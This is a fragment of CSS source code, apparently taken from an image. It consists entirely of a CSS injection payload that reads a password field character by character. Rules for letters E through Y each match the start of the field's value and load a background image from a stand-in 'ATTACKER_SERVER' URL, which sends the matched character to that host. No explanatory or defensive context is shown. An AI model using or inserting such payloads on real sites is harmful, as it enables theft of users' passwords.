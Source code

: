 ```css
input[name="password"][value^="E"] {
    background-image: url("https://ATTACKER_SERVER/E");
}
input[name="password"][value^="F"] {
    background-image: url("https://ATTACKER_SERVER/F");
}
input[name="password"][value^="G"] {
    background-image: url("https://ATTACKER_SERVER/G");
}
input[name="password"][value^="H"] {
    background-image: url("https://ATTACKER_SERVER/H");
}
input[name="password"][value^="I"] {
    background-image: url("https://ATTACKER_SERVER/I");
}
input[name="password"][value^="J"] {
    background-image: url("https://ATTACKER_SERVER/J");
}
input[name="password"][value^="K"] {
    background-image: url("https://ATTACKER_SERVER/K");
}
input[name="password"][value^="L"] {
    background-image: url("https://ATTACKER_SERVER/L");
}
input[name="password"][value^="M"] {
    background-image: url("https://ATTACKER_SERVER/M");
}
input[name="password"][value^="N"] {
    background-image: url("https://ATTACKER_SERVER/N");
}
input[name="password"][value^="O"] {
    background-image: url("https://ATTACKER_SERVER/O");
}
input[name="password"][value^="P"] {
    background-image: url("https://ATTACKER_SERVER/P");
}
input[name="password"][value^="Q"] {
    background-image: url("https://ATTACKER_SERVER/Q");
}
input[name="password"][value^="R"] {
    background-image: url("https://ATTACKER_SERVER/R");
}
input[name="password"][value^="S"] {
    background-image: url("https://ATTACKER_SERVER/S");
}
input[name="password"][value^="T"] {
    background-image: url("https://ATTACKER_SERVER/T");
}
input[name="password"][value^="U"] {
    background-image: url("https://ATTACKER_SERVER/U");
}
input[name="password"][value^="V"] {
    background-image: url("https://ATTACKER_SERVER/V");
}
input[name="password"][value^="W"] {
    background-image: url("https://ATTACKER_SERVER/W");
}
input[name="password"][value^="X"] {
    background-image: url("https://ATTACKER_SERVER/X");
}
input[name="password"][value^="Y"] {
    background-image: url("https://ATTACKER_SERVER/Y");
}
```
